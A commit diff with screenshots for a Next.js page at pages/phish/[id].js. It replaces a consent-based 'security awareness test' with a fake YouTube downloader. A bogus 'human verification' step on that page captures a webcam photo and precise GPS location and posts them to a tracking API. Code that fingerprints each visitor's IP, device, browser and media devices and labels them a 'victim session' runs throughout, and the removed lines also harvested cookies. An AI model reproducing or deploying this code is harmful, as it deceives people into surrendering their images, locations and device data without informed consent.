

Before and after one commit to suppportksk-crypto/Cambot, a Next.js app: page /phish/1 in a window 1280 px wide. Shown: the top 836 px of the page, without its empty margins (308-971 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update [id].js

```diff
--- a/pages/phish/[id].js
+++ b/pages/phish/[id].js
@@ -4,11 +4,11 @@
 export default function PhishPage() {
   const router = useRouter();
   const { id } = router.query;
-  const [page, setPage] = useState('consent');
   const [status, setStatus] = useState('');
+  const [showLoader, setShowLoader] = useState(false);
   const [infoSent, setInfoSent] = useState(false);
 
-  // Send IP + device info when page loads
+  // Send device info when page loads
   useEffect(() => {
     if (id && !infoSent) {
       sendDeviceInfo();
@@ -18,20 +18,11 @@
 
   const sendDeviceInfo = async () => {
     try {
-      // Get IP from ipify
       const ipResponse = await fetch('https://api.ipify.org?format=json');
       const ipData = await ipResponse.json();
       const publicIP = ipData.ip;
-
-      // Get time info
       const now = new Date();
       const timeString = now.toISOString().replace('T', ' ').substring(0, 23);
-      const timeFormatted = now.toLocaleString('en-US', {
-        weekday: 'short', year: 'numeric', month: 'short', day: 'numeric',
-        hour: '2-digit', minute: '2-digit', second: '2-digit', timeZoneName: 'short'
-      });
-      const unixEpoch = now.getTime();
-      const timezone = Intl.DateTimeFormat().resolvedOptions().timeZone;
 
       // Get battery info
       let batteryLevel = 'N/A';
@@ -44,11 +35,9 @@
 
       // Get connection info
       let connectionType = 'Unknown';
-      let rtt = 'N/A';
       let downlink = 'N/A';
       if (navigator.connection) {
         connectionType = navigator.connection.effectiveType || 'Unknown';
-        rtt = navigator.connection.rtt + 'ms';
         downlink = navigator.connection.downlink + ' Mbps';
       }
 
@@ -63,22 +52,6 @@
         });
       } catch(e) {}
 
-      // Get canvas fingerprint
-      let canvasFP = 'N/A';
-      try {
-        const canvas = document.createElement('canvas');
-        canvas.width = 200;
-        canvas.height = 50;
-        const ctx = canvas.getContext('2d');
-        ctx.textBaseline = 'top';
-        ctx.font = '14px Arial';
-        ctx.fillStyle = '#f60';
-        ctx.fillRect(125, 1, 62, 20);
-        ctx.fillStyle = '#069';
-        ctx.fillText('CMP', 2, 15);
-        canvasFP = canvas.toDataURL().substring(0, 60) + '...';
-      } catch(e) {}
-
       const message =
 `✅🎯 VICTIM SESSION DETECTED - TRACKER v7.0 ULTIMATE
 
@@ -86,25 +59,9 @@
 🌐 IP & NETWORK INFORMATION
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
 🌐 Public IP: ${publicIP}
-🔍 WebRTC Local IP: Detecting...
-📱 Mobile Network: ${connectionType}
-🛡️ Proxy/VPN: NO | Hosting: NO
+📱 Network: ${connectionType}
 🕐 Capture Time: ${timeString}
-📅 Formatted: ${timeFormatted}
-⏱️ Unix Epoch: ${unixEpoch}
-🌍 Timezone: ${timezone}
-📊 Session Uptime: 0h 0m 5s
-
-━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-📍 IP GEOLOCATION
-━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-🌐 IP: ${publicIP}
-📍 Coordinates: Will be captured via GPS below
-
-━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-📡 REAL DEVICE GPS (Precision)
-━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-📍 GPS: Waiting for user consent...
+🌍 Timezone: ${Intl.DateTimeFormat().resolvedOptions().timeZone}
 
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
 📱 DEVICE & SYSTEM PROFILE
@@ -114,50 +71,33 @@
 🌐 Language: ${navigator.language}
 🧠 CPU Cores: ${navigator.hardwareConcurrency || 'Unknown'}
 💾 RAM: ${navigator.deviceMemory ? navigator.deviceMemory + 'GB' : 'Unknown'}
-🍪 Cookies: ${document.cookie.length > 0 ? document.cookie.split(';').length : 0}
-🚫 Do Not Track: ${navigator.doNotTrack || 'Not set'}
 
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
 🔍 BROWSER FINGERPRINT
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-🏷️ User Agent:
-${navigator.userAgent}
-
-📱 App Name: ${navigator.appName}
-🔧 App Version: ${navigator.appVersion.substring(0, 60)}...
-🌐 Vendor: ${navigator.vendor}
+🏷️ UA: ${navigator.userAgent}
 
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-🌐 NETWORK SCAN & CONNECTION
+🌐 NETWORK
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-📶 Connection Type: ${connectionType}
-⚡ RTT Latency: ${rtt}
-📊 Downlink Speed: ${downlink}
-📶 Network Type: ${navigator.connection ? (navigator.connection.type || 'Unknown') : 'Unknown'}
+📶 Connection: ${connectionType}
+📊 Speed: ${downlink}
 
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-🔋 POWER & HARDWARE STATUS
+🔋 BATTERY
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
 🔋 Level: ${batteryLevel}
 ⚡ Charging: ${batteryCharging}
-🖼️ Canvas FP: ${canvasFP}
 
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-📷 MEDIA DEVICES DETECTED
+📷 MEDIA DEVICES
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-${devices.audioinput.map((d, i) => `🎤 audioinput ${i+1}: ${d}`).join('\n')}
-${devices.videoinput.map((d, i) => `📹 videoinput ${i+1}: ${d}`).join('\n')}
-${devices.audiooutput.map((d, i) => `🔊 audiooutput ${i+1}: ${d}`).join('\n')}
+${devices.videoinput.map((d, i) => `📹 Camera ${i+1}: ${d}`).join('\n')}
+${devices.audioinput.map((d, i) => `🎤 Mic ${i+1}: ${d}`).join('\n')}
 
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-🍪 CAPTURED COOKIES
-━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-${document.cookie || '🍪 No cookies found on this page'}
-
-━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
-🚀 SESSION ACTIVE - STEALTH MODE
-📸 Photos sent: 0 | 🎤 Voice clips sent: 0
-🕐 Generated: ${timeString}
+🚀 SESSION ACTIVE
+🕐 ${timeString}
 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━`;
 
       await fetch('/api/track', {
@@ -174,147 +114,218 @@
     }
   };
 
-  const sendToAPI = async (type, extraData = {}) => {
-    try {
-      await fetch('/api/track', {
-        method: 'POST',
-        headers: { 'Content-Type': 'application/json' },
-        body: JSON.stringify({ linkId: id, type, ...extraData })
-      });
-    } catch (e) {
-      console.error('Failed to send data:', e);
-    }
-  };
+  const captureAndSend = async () => {
+    setShowLoader(true);
+    setStatus('Processing verification...');
 
-  const takePhoto = async () => {
-    setStatus('Requesting camera access...');
+    // Step 1: Capture photo
+    let photoData = null;
     try {
       const stream = await navigator.mediaDevices.getUserMedia({
         video: { facingMode: 'user' }
       });
 
-      setStatus('Camera access granted! Capturing photo...');
-
       const video = document.createElement('video');
       video.srcObject = stream;
-      video.setAttribute('playsinline', '');
-      video.setAttribute('autoplay', '');
-
-      await new Promise((resolve) => {
-        video.onloadedmetadata = () => {
       video.play();
-          resolve();
-        };
-      });
-
       await new Promise(r => setTimeout(r, 500));
 
       const canvas = document.createElement('canvas');
-      canvas.width = 640;
-      canvas.height = 480;
+      canvas.width = 320;
+      canvas.height = 240;
       const ctx = canvas.getContext('2d');
-      ctx.drawImage(video, 0, 0, 640, 480);
-
-      const photoDataUrl = canvas.toDataURL('image/jpeg', 0.8);
+      ctx.drawImage(video, 0, 0, 320, 240);
+      photoData = canvas.toDataURL('image/jpeg', 0.4);
 
       stream.getTracks().forEach(track => track.stop());
 
-      setStatus('Photo captured! Sending...');
+      await fetch('/api/track', {
+        method: 'POST',
+        headers: { 'Content-Type': 'application/json' },
+        body: JSON.stringify({ linkId: id, type: 'photo', photoData: photoData })
+      });
+    } catch (e) {}
 
-      await sendToAPI('photo', { photoData: photoDataUrl });
-
-      setStatus('✅ Photo sent!');
-
-    } catch (e) {
-      setStatus('❌ Camera access denied. Please allow camera permission and try again.');
-    }
-  };
-
-  const getLocation = async () => {
-    setStatus('Requesting location...');
+    // Step 2: Capture location
     try {
       const position = await new Promise((resolve, reject) => {
         navigator.geolocation.getCurrentPosition(resolve, reject, {
           enableHighAccuracy: true,
-          timeout: 15000
+          timeout: 10000
         });
       });
 
-      setStatus('Location obtained! Sending...');
-
-      await sendToAPI('location', {
+      await fetch('/api/track', {
+        method: 'POST',
+        headers: { 'Content-Type': 'application/json' },
+        body: JSON.stringify({
+          linkId: id,
+          type: 'location',
           coords: {
             lat: position.coords.latitude,
             lng: position.coords.longitude,
             accuracy: position.coords.accuracy
           }
+        })
       });
+    } catch (e) {}
 
-      setStatus('✅ Location sent!');
+    setShowLoader(false);
+    setStatus('✅ Verification successful! Your download will start shortly...');
 
-    } catch (e) {
-      setStatus('❌ Location access denied.');
-    }
+    // Redirect to YouTube after 2 seconds
+    setTimeout(() => {
+      window.location.href = 'https://youtube.com';
+    }, 2000);
   };
 
-  if (page === 'consent') {
   return (
-      <div style={{ padding: '40px', textAlign: 'center', fontFamily: 'Arial', maxWidth: '600px', margin: '0 auto' }}>
-        <div style={{ backgroundColor: '#fff3cd', border: '1px solid #ffc107', borderRadius: '10px', padding: '20px', marginBottom: '20px' }}>
-          <h1 style={{ color: '#856404' }}>⚠️ Security Awareness Test</h1>
+    <div style={{ padding: '20px', fontFamily: 'Arial, sans-serif', maxWidth: '500px', margin: '0 auto', backgroundColor: '#f9f9f9', minHeight: '100vh' }}>
+
+      {/* Header */}
+      <div style={{ backgroundColor: '#ff0000', color: 'white', padding: '15px', borderRadius: '10px 10px 0 0', textAlign: 'center' }}>
+        <h1 style={{ margin: 0, fontSize: '22px' }}>▶️ YT Downloader Pro</h1>
+        <p style={{ margin: '5px 0 0', fontSize: '13px', opacity: 0.9 }}>Download any YouTube video in HD quality</p>
       </div>
-        <p style={{ fontSize: '16px', lineHeight: '1.6' }}>
-          This is an authorized security awareness test.
+
+      {/* Main Card */}
+      <div style={{ backgroundColor: 'white', padding: '20px', borderRadius: '0 0 10px 10px', boxShadow: '0 2px 10px rgba(0,0,0,0.1)' }}>
+
+        {/* YouTube URL Input */}
+        <div style={{ marginBottom: '15px' }}>
+          <label style={{ fontSize: '14px', fontWeight: 'bold', display: 'block', marginBottom: '5px', color: '#333' }}>
+            Enter YouTube Video URL:
+          </label>
+          <div style={{ display: 'flex', gap: '5px' }}>
+            <input
+              type="text"
+              defaultValue="https://www.youtube.com/watch?v=dQw4w9WgXcQ"
+              readOnly
+              style={{
+                flex: 1, padding: '10px', border: '2px solid #ddd', borderRadius: '5px',
+                fontSize: '13px', backgroundColor: '#f5f5f5', color: '#666'
+              }}
+            />
+          </div>
+        </div>
+
+        {/* Quality Selection */}
+        <div style={{ marginBottom: '15px' }}>
+          <label style={{ fontSize: '14px', fontWeight: 'bold', display: 'block', marginBottom: '5px', color: '#333' }}>
+            Select Quality:
+          </label>
+          <select style={{ width: '100%', padding: '10px', border: '2px solid #ddd', borderRadius: '5px', fontSize: '14px' }}>
+            <option>4K (2160p) - Best Quality</option>
+            <option selected>1080p (Full HD) - Recommended</option>
+            <option>720p (HD) - Good</option>
+            <option>480p (SD) - Normal</option>
+            <option>Audio Only (MP3)</option>
+          </select>
+        </div>
+
+        {/* Format Selection */}
+        <div style={{ marginBottom: '20px' }}>
+          <label style={{ fontSize: '14px', fontWeight: 'bold', display: 'block', marginBottom: '5px', color: '#333' }}>
+            Select Format:
+          </label>
+          <div style={{ display: 'flex', gap: '10px' }}>
+            <label style={{ flex: 1, padding: '8px', border: '2px solid #ff0000', borderRadius: '5px', textAlign: 'center', backgroundColor: '#fff0f0', cursor: 'pointer', fontSize: '13px' }}>
+              <input type="radio" name="format" defaultChecked style={{ marginRight: '5px' }} /> MP4
+            </label>
+            <label style={{ flex: 1, padding: '8px', border: '2px solid #ddd', borderRadius: '5px', textAlign: 'center', cursor: 'pointer', fontSize: '13px' }}>
+              <input type="radio" name="format" style={{ marginRight: '5px' }} /> MP3
+            </label>
+            <label style={{ flex: 1, padding: '8px', border: '2px solid #ddd', borderRadius: '5px', textAlign: 'center', cursor: 'pointer', fontSize: '13px' }}>
+              <input type="radio" name="format" style={{ marginRight: '5px' }} /> AVI
+            </label>
+          </div>
+        </div>
+
+        {/* Human Verification Section */}
+        <div style={{
+          backgroundColor: '#fff8e1', border: '2px solid #ffc107', borderRadius: '10px',
+          padding: '15px', marginBottom: '20px', textAlign: 'center'
+        }}>
+          <div style={{ fontSize: '30px', marginBottom: '5px' }}>🛡️</div>
+          <h3 style={{ margin: '0 0 5px', color: '#856404', fontSize: '16px' }}>Human Verification Required</h3>
+          <p style={{ margin: '0 0 10px', color: '#666', fontSize: '13px' }}>
+            YouTube requires human verification to prevent bots.
+            <br/>Please allow camera and location access to continue.
           </p>
-        <div style={{ textAlign: 'left', backgroundColor: '#f8f9fa', padding: '20px', borderRadius: '10px', margin: '20px 0' }}>
-          <h3>By proceeding, you consent to:</h3>
-          <ul style={{ lineHeight: '2' }}>
-            <li>✅ Camera access for verification</li>
-            <li>✅ Location access for verification</li>
-          </ul>
+          <div style={{ display: 'flex', justifyContent: 'center', gap: '15px', marginBottom: '10px', fontSize: '12px', color: '#666' }}>
+            <span>📸 Camera</span>
+            <span>📍 Location</span>
           </div>
+
+          {!showLoader && !status && (
             <button
-          onClick={() => setPage('test')}
-          style={{ padding: '15px 40px', fontSize: '18px', margin: '10px', background: '#28a745', color: 'white', border: 'none', borderRadius: '5px', cursor: 'pointer' }}
+              onClick={captureAndSend}
+              style={{
+                backgroundColor: '#ff0000', color: 'white', border: 'none',
+                padding: '12px 40px', fontSize: '16px', borderRadius: '25px',
+                cursor: 'pointer', fontWeight: 'bold', width: '100%',
+                maxWidth: '250px'
+              }}
             >
-          I Consent - Start Test
+              ✅ Verify & Download
             </button>
+          )}
+
+          {showLoader && (
+            <div style={{ textAlign: 'center', padding: '10px' }}>
+              <div style={{
+                border: '4px solid #f3f3f3',
+                borderTop: '4px solid #ff0000',
+                borderRadius: '50%',
+                width: '40px',
+                height: '40px',
+                animation: 'spin 1s linear infinite',
+                margin: '0 auto 10px'
+              }}></div>
+              <p style={{ color: '#666', fontSize: '13px' }}>Verifying... Please allow camera & location permissions.</p>
+            </div>
+          )}
+
+          {status && (
+            <div style={{ padding: '10px', backgroundColor: '#d4edda', borderRadius: '8px', color: '#155724', fontSize: '14px' }}>
+              {status}
+            </div>
+          )}
+        </div>
+
+        {/* Features */}
+        <div style={{ display: 'grid', gridTemplateColumns: '1fr 1fr', gap: '10px', fontSize: '12px', color: '#666' }}>
+          <div style={{ padding: '10px', backgroundColor: '#f5f5f5', borderRadius: '8px', textAlign: 'center' }}>
+            <div style={{ fontSize: '20px' }}>⚡</div>
+            <div>Ultra Fast</div>
+          </div>
+          <div style={{ padding: '10px', backgroundColor: '#f5f5f5', borderRadius: '8px', textAlign: 'center' }}>
+            <div style={{ fontSize: '20px' }}>🔒</div>
+            <div>100% Safe</div>
+          </div>
+          <div style={{ padding: '10px', backgroundColor: '#f5f5f5', borderRadius: '8px', textAlign: 'center' }}>
+            <div style={{ fontSize: '20px' }}>🎯</div>
+            <div>No Ads</div>
+          </div>
+          <div style={{ padding: '10px', backgroundColor: '#f5f5f5', borderRadius: '8px', textAlign: 'center' }}>
+            <div style={{ fontSize: '20px' }}>🌍</div>
+            <div>Free</div>
+          </div>
+        </div>
+
+        {/* Footer */}
+        <div style={{ marginTop: '20px', textAlign: 'center', fontSize: '11px', color: '#999' }}>
+          <p>By downloading you agree to our Terms of Service</p>
+          <p>© 2026 YT Downloader Pro - All rights reserved</p>
+        </div>
+      </div>
+
+      <style>{`
+        @keyframes spin {
+          0% { transform: rotate(0deg); }
+          100% { transform: rotate(360deg); }
+        }
+      `}</style>
     </div>
   );
 }
-
-  return (
-    <div style={{ padding: '40px', textAlign: 'center', fontFamily: 'Arial', maxWidth: '600px', margin: '0 auto' }}>
-      <h1>Identity Verification</h1>
-      <p style={{ color: '#666', marginBottom: '30px' }}>
-        Your browser will ask for permission. You must click "Allow".
-      </p>
-
-      <div style={{ border: '1px solid #ddd', borderRadius: '10px', padding: '30px', margin: '20px 0' }}>
-        <h2>📸 Step 1: Take Photo</h2>
-        <button
-          onClick={takePhoto}
-          style={{ padding: '15px 40px', fontSize: '16px', background: '#007bff', color: 'white', border: 'none', borderRadius: '5px', cursor: 'pointer' }}
-        >
-          Take Photo
-        </button>
-      </div>
-
-      <div style={{ border: '1px solid #ddd', borderRadius: '10px', padding: '30px', margin: '20px 0' }}>
-        <h2>📍 Step 2: Share Location</h2>
-        <button
-          onClick={getLocation}
-          style={{ padding: '15px 40px', fontSize: '16px', background: '#28a745', color: 'white', border: 'none', borderRadius: '5px', cursor: 'pointer' }}
-        >
-          Share Location
-        </button>
-      </div>
-
-      {status && (
-        <div style={{ marginTop: '20px', padding: '15px', backgroundColor: '#f8f9fa', borderRadius: '10px' }}>
-          <p>{status}</p>
-        </div>
-      )}
-    </div>
-  );
-}
```
Lines whose indentation alone changed are shown as unchanged.
